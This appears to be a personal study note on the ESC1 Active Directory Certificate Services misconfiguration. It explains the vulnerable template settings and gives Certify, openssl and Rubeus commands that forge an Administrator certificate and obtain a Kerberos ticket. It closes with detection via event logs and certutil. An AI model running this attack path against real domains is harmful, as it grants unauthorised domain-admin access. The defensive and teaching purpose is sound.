 ### General Notes

This is one the vulnerabilities discovered by [Certified Pre-Owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf) for Domain Escalation in [[Active Directory]] by abusing [[Active Directory Certificate Services]].
- The attack tool [Certify](https://github.com/GhostPack/Certify) is used.

It results in the creation of a certificate as any user, like the administrator, by a normal user.
- This is a privilege escalation attack.

##### Vulnerability
This vulnerability is a result of an insecure misconfiguration of the [[Active Directory Certificate Services#Certificates|Certificates]] Template that are as follows:
- The *Certificate Authority* grants *Enrollment Rights*: Permits low privileged [[Objects#Users|Users]] to request certificates.
- Disabled *Manager Approval*: Permits users to issue certificates without review by users with a Manager permission.
- *Authorized Signatures* are *not required*.
- Overly *permissive security descriptor* grants enrollment rights to low privileged users.
- There are *EKUs* that *enable authentication*: These include client authentication, smart card logon, ...
- A *SubjectAlternativeName* can be *specified by the requestor*: If the `ENROLLEE_SUPPLIES_SUBJECT` flag is present, then the requestor can request a certificate as anyone - admin.

---
### Attach Path

Use *Certify* to scan the environment for vulnerabilities:
```powershell
.\Certify find /vulnerable
```
- If a vulnerability is found, a *vulnerable template* will be output with details.
- It also showcases the *Certificate Authority* in use.

If the template showcases the [[#Vulnerability]] details as described above, then we can exploit it:
- Notice the `Enrollment Rights` to see how can request certificates.
- Notice the `msPKI-Certificates-Name-Flag` to check for the `ENROLLEE_SUPPLIES_SUBJECT` flag.
- Notice the `pkiextendedkeyusage` to check for authentication permissions.

To abuse this, we can use *Certify* and specify the `request` argument.
```powershell
.\Certify request /ca:<CERTIFICATE-AUTHORITY-FULLNAME> /template:<TEMPLATE-NAME> /altname:<Administrator>
```
- The `altname` is the user we want to impersonate, in this case, the *administrator* user.

Once successful, a certificate is produced in *base64* and in the `PEM` format.
1. Correctly format the `PEM` file.
```bash
sed -i 's/\s\s\+/\n/g' cert.pem
```
2. Execute the `openssl` command provided in the output of *Certify*:
```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Now, we can request a [[Kerberos]] *TGT* for the *Administrator* user using `Rubeus` and authenticate with the obtained certificate:
```powershell
.\Rubeus.exe asktgt /domain:<domain> /user:Administrator /certificate:cert.pfx /dc:<DC> /ptt
```

---
### Prevention & Detection

Disabling the `ENROLLEE_SUPPLIES_SUBJECT` flag and to require *manager approval*.

To detect the creation of certificates by the Certificate Authority, the [[Windows Events Log]] generates:
- `4886`: Logs the request to create a certificate.
- `4887`: Logs the creation of a certificate. Only has the requestor information, without the *SubjectAlternativeName (SAN)*, which is what is forged.

> These events are not logged at the [[Domain Controller]], but they are logged at the machine issuing the certificate. This is the certificate authority server.

To view the logs on that machine, we can enter a PowerShell session on that machine using `PSSession`.
```powershell
New-PSSession PKI
Enter-PSSession PKI

Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}

$events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
$events[0] | Format-List -Property *
```
- `PKI` is the name of the server that issues certificates.

We can detect malicious certificates by viewing the certificates on the Certificate Authority and checking to see if the user that requested the certificate matches or is suspicious in relation to the *SAN*.
```powershell
certutil -view
```